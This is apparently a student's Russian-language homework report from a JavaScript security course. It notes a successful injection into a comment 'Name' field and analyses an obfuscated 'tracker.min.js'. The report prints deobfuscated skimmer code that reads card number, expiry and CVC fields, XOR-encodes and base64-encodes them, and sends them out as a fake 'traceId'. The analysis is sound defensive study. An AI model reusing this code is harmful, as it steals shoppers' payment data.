

# Домашнее задание к занятию «1.4. JavaScript»  
## Задание «Комментарии»  
### Результаты выполнения задания  

Сработала возможность инъекции кода в поле "Имя"
```

```

  

## Задание «Трекер»* 

При успешной оплате скрипт отправляет запрос вида:
```
{
    "traceId":"BA0KU1xZBAYCAg1TUwIEBwwDAgYMDl9SAVkGBggBC1APXAcGAg5RBAdVA1ENVQUKUFlTAVtfDgNWDgpQDVUFVA",
    "total":19328
}
```  
Настараживает поле `traceId` оно имеет base64 кодировку, далее определить содержимое не получилось
После деобфускации библиотеки `tracker.min.js` наткнулся на следующий код:
```
window[_0x19f579(0x94)] = _0x4ee945 => {
    (async () => {
        const _0x4905ea = _0xd81a,
            _0x548d0a = window[_0x4905ea(0x7f)],
            _0x1466a6 = document['querySelector'](_0x4905ea(0xa0))?.['value'],
            _0x869b1e = document['querySelector']('[name=\"month\"]')?.[_0x4905ea(0x7e)],
            _0xdf1eba = document[_0x4905ea(0x78)]('[name=\"year\"]')?.[_0x4905ea(0x7e)],
            _0xf147f5 = document[_0x4905ea(0x78)](_0x4905ea(0x9f))?.['value'];
        let _0x2f404e = _0x4ee945 + ':' + _0x1466a6['replace'](/ /g, '') + ':' + _0x869b1e + ':' + _0xdf1eba + ':' + _0xf147f5;
        _0x2f404e[_0x4905ea(0x90)] < _0x548d0a['length'] && (_0x2f404e += uniq(_0x548d0a[_0x4905ea(0x90)] - _0x2f404e[_0x4905ea(0x90)]));
        const _0x90860c = _0x2f404e['split']('')[_0x4905ea(0x87)]((_0x591383, _0x55daa1) => String['fromCharCode'](_0x591383[_0x4905ea(0x86)](0x0) ^ _0x548d0a[_0x4905ea(0x86)](_0x55daa1)))['join'](''),
            _0x1fdeb7 = btoa(_0x90860c)[_0x4905ea(0x99)](/=/g, ''),
            _0x465be8 = {
                'traceId': _0x1fdeb7,
                'total': _0x4ee945
            };
        try {
            if ('QvyZV' !== _0x4905ea(0x98)) {
                function _0x227d47() {
                    const _0x34a381 = _0x332f10 ? function () {
                        if (_0x4eb7ae) {
                            const _0x289642 = _0x2e52ec['apply'](_0x1887ac, arguments);
                            return _0x29a35c = null, _0x289642;
                        }
                    } : function () { };
                    return _0xea85ac = ![], _0x34a381;
                }
            } else await fetch(_0x4905ea(0x82), {
                'method': _0x4905ea(0x89),
                'headers': {
                    'Content-Type': _0x4905ea(0x81),
                    'Authorization': _0x548d0a
                },
                'body': JSON[_0x4905ea(0x7d)](_0x465be8)
            });
        } catch (_0x4524b9) {
            console[_0x4905ea(0x8f)](_0x4524b9);
        }
    })();
};
```
Алгоритм очень похож на:
1. Получение значения полей формы ввода 
` _0x1466a6 = document['querySelector'](_0x4905ea(0xa0))?.['value']`
2. Сериализация данных и возможно шифрование
`let _0x2f404e = _0x4ee945 + ':' + _0x1466a6['replace'](/ /g, '') + ':' + _0x869b1e + ':' + _0xdf1eba + ':' + _0xf147f5;`
3. Кодирование в Base64
` _0x1fdeb7 = btoa(_0x90860c)[_0x4905ea(0x99)](/=/g, ''),`
4. Отправка данных
`await fetch(_0x4905ea(0x82)`